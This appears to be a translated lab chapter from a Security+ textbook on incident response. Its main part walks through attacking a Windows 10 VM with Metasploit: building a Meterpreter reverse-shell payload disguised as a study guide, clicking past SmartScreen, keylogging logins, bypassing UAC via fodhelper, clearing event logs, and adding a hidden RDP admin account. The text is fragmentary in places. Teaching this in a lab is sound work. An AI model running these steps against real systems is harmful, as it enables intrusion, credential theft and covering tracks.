









## 第 22 章：事件响应

### 实验练习

- 22.01 事件响应公司和案例
- 22.02 Metasploit 框架
- 22.03 Metasploit 的 Meterpreter
- 22.04 Armitage

### 实验分析

### 关键术语测验

美国国家标准与技术研究院（NIST）的计算机安全资源中心（CSRC）提供了以下作为事件的定义之一（https://csrc.nist.gov/glossary/term/incident）：

> 实际或可能危及信息系统或系统处理、存储或传输的信息的保密性、完整性或可用性的事件，或构成违反或即将违反安全策略、安全程序或可接受使用策略的事件。

此外，NIST CSRC 将事件响应定义为“安全策略和推荐做法的违规行为的缓解”（https://csrc.nist.gov/glossary/term/incident_response）。

事件响应包括组织在网络攻击或数据泄露后立即采取的步骤，以尽可能遏制损害并保存证据以供取证分析。如果操作不正确，恢复


步骤 1 许多公司提供事件响应服务。请评估以下公司并撰写一份报告，比较它们所提供的服务：

- Check Point
- Cisco
- Cylance
- FireEye
- IBM
- McAfee
- RSA
- Secureworks
- Symantec
- Trustwave

在 Google 搜索这些公司时，请输入公司名称以及带引号的短语“incident response”。

在你的报告中，请回答以下每个问题以及你认为重要的任何其他内容：

- 所有公司都提供什么服务？
- 每家公司的独特之处是什么？
- 每家公司的服务中最好的部分是什么？
- 每家公司的服务中哪一点可以改进？
- 哪个是总体最佳方案，为什么？

2

步骤 2 由 IBM Security 推出的 SecurityIntelligence 发布关于“制定和测试事件响应计划、勒索软件和其他不断演变的威胁，以及法规如何影响事件响应”的文章。

从 https://securityintelligence.com/category/incident-response/ 中挑选最近的五篇文章，撰写一篇

本书的引言讨论了黑客一词的起源和演变，以及另一种黑客：灰帽黑客。

某些漏洞被标记为零日漏洞。这些漏洞在被利用之前已被发现，但并未公开宣布。因此，通常会修补这些漏洞的公司和个人现在有零天时间来修复问题或提出缓解技术。零日漏洞利用（也称为零日攻击）不会针对大量目标使用，因为使用量的增加将触发发现以及随后的检测特征（由反恶意软件程序和 IDS/IPS 设备）和供应商的补丁。如果使用过于频繁，零日漏洞将不再是零日漏洞！因此，攻击者会囤积它们，并在某些“紧急”情况下使用它们。政府也可以囤积它们，而不是通知那些其设备和软件保护本国公民的供应商。这样的零日漏洞储备对于针对国家支持的网络犯罪分子的侦察和网络攻击将非常有价值。然而，这可能会导致不好的事情发生。

2017 年 5 月 12 日（星期五）爆发的 WannaCry 勒索软件就是这种情况，它通过针对 Microsoft Windows 服务器消息块（SMB）协议的 EternalBlue 零日漏洞利用进行传播。EternalBlue 是由被称为方程式组织（Equation Group）的高级持续性威胁（APT）开发的一组工具的一部分。据信，方程式组织与美国国家安全局（NSA）的一个名为“定制接入行动”（TAO）的黑客组织有关。基本上，NSA 至少从 2011 年到 2016 年创建、使用并改进了 EternalBlue 漏洞利用程序长达五年之久。三名前 NSA 操作员声称，分析人员花了将近一年时间在 Microsoft 的软件中寻找漏洞并编写利用代码。NSA 并未将这一漏洞告知 Microsoft，而是将其用于攻击性攻击、情报收集和反恐任务。

SMB 是一种网络文件共享协议，允许计算机上的应用程序读写文件并请求服务。它还允许网络浏览和网络打印。该漏洞可以被利用，因为在某些版本的 Microsoft Windows 中，SMB 版本 1（SMBv1）服务器会错误处理来自远程攻击者的特制数据包，从而使攻击者能够在目标计算机上执行任意代码。

版本化为未打补丁的代码版本，逆向之，根据补丁本身设计漏洞利用，然后利用那些尚未应用补丁的易受攻击系统。

最后，还有概念验证（PoC）漏洞利用程序，通常由白帽黑客和供应商自己开发，以展示漏洞如何被利用并开发补丁。通常，这些并不是为了造成损害，但它们可以被黑帽黑客改写、完善并加以利用，尤其是针对未修补的漏洞。

漏洞利用程序通常向受攻击的系统传递有效载荷，以使攻击者能够渗透系统。有效载荷是允许攻击者在系统被利用后控制系统的实际代码。

想象两个开着货车的小偷。司机把货车撞进店面。另一个人跳出来开始洗劫商店。货车就是漏洞利用程序，而装满袋子的那个小偷就是有效载荷。

想象一枚导弹——火箭、燃料以及火箭中的其他一切就是漏洞利用程序。弹头是造成实际破坏的部分——那就是有效载荷。去掉弹头，导弹就不会有很强的冲击力。此外，如果没有火箭运载，弹头也起不了太大作用。

渗透测试，或简称为 pentesting，与黑帽黑客的网络攻击非常相似。首先，你找到系统（如本章所示）。接下来，你在这些系统上找到程序或服务（如第 16 章所述，通过端口扫描）。然后，你在这些系统上的这些程序或服务中找到漏洞（如第 25 章所述）。然后，你找到这些漏洞可以被利用的方式（如本章所述）。最后，你继续进行并实际利用这些漏洞（如本章所述）。现在，你已入侵系统，可以利用它们转向同一网络上的其他系统以及不同网络上的系统。

## 学习目标

在本实验练习中，你将攻击一个 Windows 10 系统。在本实验练习结束时，你将能够

- 使用 Metasploit 利用漏洞来控制 Windows 系统和入侵防御系统（IPS），以及删除会导致目标程序或系统崩溃的错误字符。

- **MSFvenom** 结合了有效载荷生成和编码。
- **MSFconsole** Metasploit Framework 最流行的界面。MSFconsole 是一个一站式集中控制台。
- **PostgreSQL（发音为 *post-gres-Q-L*）** 一个开源关系数据库管理系统（RDBMS），Metasploit 使用它。
- **Meterpreter** Metasploit 最流行的有效载荷。Meterpreter 允许你在受害机器上执行许多操作，包括上传、下载、创建、修改和删除文件，截取屏幕截图，实时观看受害机器，接管屏幕、鼠标和键盘，打开网络摄像头，以及更多功能。

在以下步骤中，请确保在每条命令后按 ENTER 键。

### 1a–1d

### 步骤 1 在 Kali Linux 虚拟机中打开终端。创建一个带有 Meterpreter 有效载荷的可执行文件，启动 Web 服务器，然后将该可执行文件复制到 Web 服务器的根目录。

a. 首先，使用 MSFvenom 生成一个 64 位 Windows 可执行文件，该文件为有效载荷实现反向 TCP shell，即 Meterpreter。

你可能还记得第 16 章中，绑定 shell 是从攻击者的机器直接创建到受害者的机器，它允许攻击者在受害者的机器上执行命令。防火墙和网络地址转换（NAT）可能会妨碍绑定 shell。因此，渗透测试人员和攻击者可能会决定使用反向 shell，它方向相反。它是从内部受害者的机器直接发起到外部攻击者机器的连接。这也很有用，当攻击者策略性地将 USB 驱动器“丢”在公司的停车场，然后等待员工将其插入电脑时。攻击者不知道网络是如何设置的，但受害者的机器会运行 USB 上的某些东西，从而创建到攻击者机器的反向 shell，

在浏览器中，在地址栏输入 Kali Linux 虚拟机的 IP 地址，然后按 ENTER。现在 Web 服务器已启动，你应该会看到“Apache2 Debian Default Page”。

d. 回到 Kali Linux 虚拟机中，输入

```
sudo cp ~/Desktop/weissmanStudyGuide.exe /var/www/html
```

以将恶意的 WeissmanStudyGuide.exe 文件从 Desktop 目录（在步骤 1a 中该文件创建于此）复制到 Web 服务器的根目录。

### 2a–2c

### 步骤 2 启动数据库服务器，创建并初始化 Metasploit Framework 数据库，启动 Metasploit，并启动 MSFconsole。

a. 在 Kali Linux 虚拟机中，打开终端并启动 PostgreSQL 数据库服务器：

```
sudo /etc/init.d/postgresql start
```

b. 使用以下命令创建并初始化 Metasploit Framework 数据库：

```
sudo msfdb init
```

你可能会看到信息消息，提示数据库已启动并且似乎已配置。你也可能会看到有关 Python 向后兼容性的消息。

你只在第一次执行这些步骤时输入此命令。之后，使用

```
sudo msfdb start
```

来启动 Metasploit。

你可能会看到一条信息消息，提示数据库已启动。

c. 启动 MSFconsole：

```
sudo msfconsole
```

片刻之后，你将看到 msf 提示符。每次打开 MSFconsole 时，你都会看到不同的欢迎文本，其中含有精彩的双关语


以及文本图形，如图22-1所示。



# 图22-1 欢迎使用Metasploit！

MSFvenom。

d. 在 `msf6 exploit(multi/handler) >` 提示符下，输入

```
set LPORT 14618
```

设置本地端口，用于监听来自受害机器的传入流量。使用我选择的14618。这将14618指定为此漏洞利用模块的本地端口，与使用MSFvenom为载荷配置的端口相匹配。

你将收到以下输出确认：

```
LPORT => 14618
```

e. 在 `msf6 exploit(multi/handler) >` 提示符下，输入

```
show options
```

查看载荷和漏洞利用的相关信息。

f. 在 `msf6 exploit(multi/handler) >` 提示符下，输入

```
exploit
```

开始见证奇迹！

你将看到类似以下的输出（IP地址会换成你自己的）：

```
[*] Started reverse TCP handler on 192.168.1.114:14618
```


# 步骤5 模拟受害者因下载并运行恶意文件而遭受网络钓鱼攻击，该文件将启动你之前创建的漏洞利用。

a. 假设你收到一封电子邮件，称魏斯曼教授的《学习指南》能100%保证你通过CompTIA Security+认证。等等，还有更好的。你只需点击一个链接，就能免费获得它！

在受害机器上打开Firefox（Chrome会阻止你即将下载的文件，甚至不给你覆盖其决定的机会）。在地址栏中输入 http://<你的Kali Linux虚拟机的IP地址>/WeissmanStudyGuide.exe 并按下回车键。

例如，输入以下内容：
**http://192.168.1.114/WeissmanStudyGuide.exe**

请确保文件名的字母大小写与示例一致。

在弹出的对话框中，点击“保存文件”按钮。

+   b. 在“下载”文件夹中，双击 `WeissmanStudyGuide.exe` 启动它。

+   c. 你将看到“Windows已保护你的电脑”窗口，其中显示：“Microsoft Defender SmartScreen已阻止启动无法识别的应用。运行此应用可能会让你的电脑面临风险。”

用户很可能已经多次看到此消息（即使是合法程序），因此他们对它已经变得麻木了。于是，他们放松警惕时甚至不会再多想一下。

不要点击右下角的“不要运行”按钮；而是点击顶部的“更多信息”超链接。

你将看到以下内容：
应用：WeissmanStudyGuide.exe
发布者：未知发布者

点击底部的“仍要运行”按钮。

+   d. 在Kali Linux虚拟机中，你会注意到在 **msf6 exploit(multi/handler)** > exploit 提示符下（显示你的IP地址），你已经成功了，如下所示：

```
[*] Started reverse TCP handler on 192.168.1.114:14618
[*] Sending stage (201283 bytes) to 192.168.1.121
[*] Meterpreter session 1 opened (192.168.1.114:14618 -> 192.168.1.121:49884)
at 2020-08-14 15:56:49 -0400

meterpreter >
```

下一个实验练习正好从这一点开始。如果你此时不继续，则在开始下一个实验练习之前，必须重新建立Meterpreter shell。因此，强烈建议你现在就继续做下一个实验练习。

60分钟

# 实验练习22.03：Metasploit的Meterpreter

是时候使用一种隐蔽、强大且可扩展的载荷——Meterpreter了，它在前一个实验练习的“让我们开始吧”部分以及 https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/ 中已有描述。

# 学习目标

在本实验练习中，你将接着上一个实验练习继续，使用Metasploit的Meterpreter载荷。在本实验练习结束时，你将能够

+   - 对Windows 10系统执行攻击
+   - 理解攻击的各个部分如何与事件响应相关联

# 实验材料和设置

本实验所需的材料有

+   - 《计算机安全原理：CompTIA Security+及超越》教科书
+   你在第1章创建的Windows 10虚拟机
+   你在第1章创建的Kali Linux虚拟机
+   完成上一个实验练习后，机器处于练习结束时的状态

# 让我们开始吧！

如果你不是在紧接着上一个实验练习后继续本实验，请启动Windows 10虚拟机和Kali Linux虚拟机。

如果你的Kali Linux虚拟机现在使用了不同的IP地址，你必须使用MSFvenom生成新的载荷，将其复制到Web服务器的根目录，并从Windows 10虚拟机下载它。你还不如直接重新完成整个上一个实验练习，然后继续这里。

如果你的Kali Linux虚拟机仍然使用与之前相同的IP地址，则无需使用MSFvenom生成新载荷，也无需从Windows 10虚拟机重新下载WeissmanStudyGuide.exe文件（除非它已被删除）。

在Kali Linux虚拟机上，重启Apache Web服务器，启动MSFconsole，并输入上一个实验练习中的以下命令，以返回到Meterpreter shell：

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <你的Kali Linux虚拟机的IP地址>
set LPORT 14618
exploit
```

在Windows 10虚拟机上，确保实时保护已关闭（它会自行重新打开，所以如果打开了，再次关闭它），然后双击 `WeissmanStudyGuide.exe` 文件启动它。你应该会再次在Kali Linux虚拟机中看到Meterpreter shell。

现在是时候了解Meterpreter的全部功能了。

1a–1g

# 步骤1 探索Meterpreter命令，以获取信息并在受害机器上执行操作。

+   a. 首先获取受损系统及其驱动器信息：
+       sysinfo

+   b. 要查看自某人使用受损系统键盘以来经过的时间（让你知道是否有人可能立即响应此事件），请输入
+       idletime

+   c. 要查看受损系统上所有正在运行的进程列表，请输入
+       ps

+   d. 在Windows 10虚拟机上打开记事本。在Meterpreter中，输入
+       ps | notepad

CLI窗口，返回Meterpreter shell。

2a–2g

# 步骤2 通过Meterpreter捕获受害机器上的键盘输入。

+   a. 攻击者捕获受害机器上的键盘输入会很有用，其中可能包含用户名/密码组合以及使用这些凭据的网站。键盘记录还可以捕获在文档或电子邮件中输入（即使是最后时刻被丢弃且未保存或发送的文件或电子邮件）的敏感信息。其他URL以及程序或文件的名称也可能被捕获并用于恶意目的。
+   
+   在Meterpreter shell中，输入
+   keyscan_start
+   启动键盘嗅探器。

+   b. 在Windows 10虚拟机上，打开记事本，开始输入几段任意内容。务必使用箭头键、BACKSPACE和DELETE。

+   c. 在Windows 10虚拟机上，打开任意浏览器并访问 www.chase.com。

# 注意

在整个步骤中，你将无法使用任何用户名/密码组合登录。提供这些信息只是为了演示键盘记录的过程。

在相应的文本框中输入用户名 `bob` 和密码 `bobpassword`，然后点击蓝色的“登录”按钮。

+   d. 访问 https://mycourses.rit.edu。
+   
+   点击“RIT账户登录”按钮，输入用户名 `bob2` 和密码 `bobpassword2`，然后点击“登录”按钮。

+   e. 访问 https://lms.flcc.edu。

```
ipconfig
netstat
route
```

你会注意到 **ifconfig** 和 **ipconfig** 的输出是相同的，而且这些输出看起来与从Windows命令提示符查看时有所不同。然而，从Meterpreter进入Windows命令提示符很简单。

b. 在Meterpreter中，使用以下命令从受损机器打开命令提示符：

```
shell
```

c. 现在你可以像亲自站在受损机器前一样执行网络命令。

使用以下命令查看机器的ARP缓存：

```
arp -a
```

d. 使用以下命令查看机器的网络配置：

```
ipconfig /all
```

e. 使用以下命令查看机器的DNS解析器缓存：

```
ipconfig /displaydns
```

f. 使用以下命令清除机器的DNS解析器缓存：

```
ipconfig /flushdns
```

通过再次执行

```
ipconfig /displaydns
```

验证条目是否已消失。这可能对DNS缓存投毒攻击（在第7章中介绍）有用。

g. 攻击者可以利用受害机器作为攻击机器，因为攻击者现在可以有目的地从受害机器向任何地方发送流量。

如果你没有执行第15章或第16章的实验练习（其中包括在Windows 10虚拟机上安装Wireshark），现在请通过访问 https://www.wireshark.org 安装Wireshark，点击“下载”上方的圆形区域，点击“Windows Installer (64-bit)”，点击“保存文件”按钮，然后在


following command. Mine, for example, is 1:

```
set session 1
```

这会将你放到后台的会话带回前台。

在 **msf6 exploit(windows/local/bypassuac_fodhelper) >** 提示符下，输入

```
exploit
```

这会在已被劫持的 Windows 10 系统上释放新的 exploit。

这一系列命令劫持了一个注册表项并插入一条命令，该命令将在 C:\Windows\System32\fodhelper.exe 运行 时执行。二进制文件 fodhelper.exe（fod 代表“Features on Demand”）在你从“应用和功能”设置窗口点击“可选功能”时启动“可选功能”窗口。你可以双击 C:\Windows\System32\fodhelper.exe 来查看它启动的窗口。此受信任的二进制文件在运行时不会显示 UAC 窗口，也不会在其他进程从其生成时显示 UAC 窗口。因此，fodhelper.exe 将被调用，并且基于注册表项条目的修改，当 fodhelper.exe 运行时，将以关闭的 UAC 标志生成第二个 shell。这为 Meterpreter 提供了所需的权限。注册表项的修改将在有效载荷运行后恢复，以使此更改为临时性的并防止被检测到。

+   c. 渗透测试人员和攻击者希望掩盖自己的痕迹，这在逻辑上是任何攻击的最后一步。在 Windows 10 VM 中，右键单击“开始”并选择“我的电脑”|“管理”|“系统工具”|“事件查看器”。展开“Windows 日志”并检查其中包含的“应用程序”、“安全”和“系统”日志条目的信息。

+   d. 在 Meterpreter 中，输入

```
clearev
```

现在它起作用了！Windows 10 VM 上的日志条目将会消失。

e. 再次查看事件查看器中的日志。差别很大！

你会注意到“安全”和“系统”日志都包含一条日志条目，表明这些日志已被清除，这会向系统管理员大声宣告发生了网络攻击。然而，具体发生了什么并不清楚；因此，这是一种很好的掩盖痕迹的方式。

6a–6f

## Step 6 命令行界面（CLI）访问很棒，但想象一下，如果你拥有图形用户界面（GUI）会怎样。你现在将通过远程桌面协议来了解。

a. 在 Meterpreter shell 中，输入

```
info post/windows/manage/enable_rdp
```

以获取有关 Windows 管理启用远程桌面模块的信息。

b. 使用以下命令运行它：

```
run post/windows/manage/enable_rdp username=hacker password=AAAbbb111
```

注意正在进行的各种后台操作，包括在必要时在本地防火墙中打开端口、添加用户 hacker（你可以用白帽黑客或黑帽黑客的心态来做这件事）并使用指定的密码、将用户添加到远程桌面用户组、将用户从 Windows 登录屏幕中隐藏起来，并将用户添加到管理员组。你还会注意到一个用于清理和掩盖痕迹的文件路径，该路径将在步骤 6e 中引用。

c. 输入以下命令（请注意，这是一个换行的命令；不要按 ENTER 来拆分此命令或本章其余的命令）：

```
reg setval -k 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -v UserAuthentication -d '0'
```

此命令转到注册表项（-k）并使用特定数据（-d）更改值（-v）。这是为了绕过“要求计算机使用网络级别身份验证进行连接”的设置所必需的。

远程桌面设置的高级设置中有一个复选框，默认情况下是选中的；这会阻止从 Kali Linux VM 访问远程桌面。此命令和注册表更改会覆盖该设置。

d. 运行命令
`idletime`

以了解当前是否有人员正在积极使用被利用的机器。此信息对于决定是否立即继续下一步或可能在一段时间后继续非常有用。

e. 在新的 Z shell 终端中，输入
`rdesktop -u hacker -p AAAbbb111 192.168.1.105`

但使用你的 Windows 10 VM 的 IP 地址代替。

如果你完成了第 14 章，你会看到使用 GPO 制作的登录警告。如果是这样，请单击“确定”按钮。

